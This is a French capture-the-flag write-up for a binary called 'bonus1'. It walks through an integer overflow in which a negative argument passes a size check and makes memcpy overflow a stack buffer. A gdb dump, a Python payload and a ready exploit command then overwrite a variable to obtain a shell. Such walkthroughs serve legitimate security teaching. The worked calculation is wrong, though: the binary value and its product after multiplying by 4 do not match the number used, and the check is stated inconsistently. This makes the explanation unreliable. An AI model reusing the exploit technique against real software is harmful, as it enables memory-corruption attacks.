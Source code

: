 # Bonus1 - Integer Overflow

## Contexte
Le programme prend deux arguments :
- Un nombre qui doit être inférieur à 9
- Une chaîne de caractères qui sera copiée
  
- En donnant 9 a memcpy on observe que nous n'avons toujours pas assez d'espace copier pour ecraser le retour de atoi pour y mettre 0x574f4c46
```nasm
(gdb) x/32wx 0xbffff414
0xbffff414:     0x41306141      0x61413161      0x33614132      0x41346141 ---> argv[2]
0xbffff424:     0x61413561      0x37614136      0x41386141      0x62413961 ---> argv[2]
0xbffff434:     0x31624130      0x080484b9      0x00000009
                                                      |
                                        atoi(9)<------+
```

- Il va falloir overflow l'int qui, apres une multiplication par 4 (decalage de 2bits a gauche) soit positif, assez grand pour overflow esp+0x3c

## Vulnérabilités

**Integer Overflow**
- La vérification `nb > 9` est effectuée
- Un nombre négatif peut passer la vérification
- Après multiplication par 4, le résultat peut devenir un grand nombre positif

**Buffer Overflow**
- memcpy utilise la taille calculée sans vérification
- Permet d'écrire au-delà du buffer alloué

## Exploitation

**Calcul de l'Integer Overflow**
- Valeur recherchée : -2147483632
- En binaire : 1000 0000 0000 0000 0000 0000 0000 0011
- Après multiplication par 4 : 0000 0000 0000 0000 0000 0000 0000 1100

**Construction du Payload**
```python
# Premier argument : integer overflow
"-2147483632"

# Second argument : padding + valeur cible
"A"*40 + "\x46\x4c\x4f\x57"  # "FLOW" en little-endian
```

**Commande d'Exploitation**
```bash
./bonus1 -2147483632 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```

## Processus d'Exploitation

1. Le nombre négatif passe la vérification `nb > 9`
2. La multiplication par 4 transforme ce nombre en valeur positive
3. memcpy copie suffisamment de données pour atteindre var_3c
4. La valeur 0x574f4c46 est écrite à l'emplacement de var_3c
5. La condition est validée et le shell est exécuté
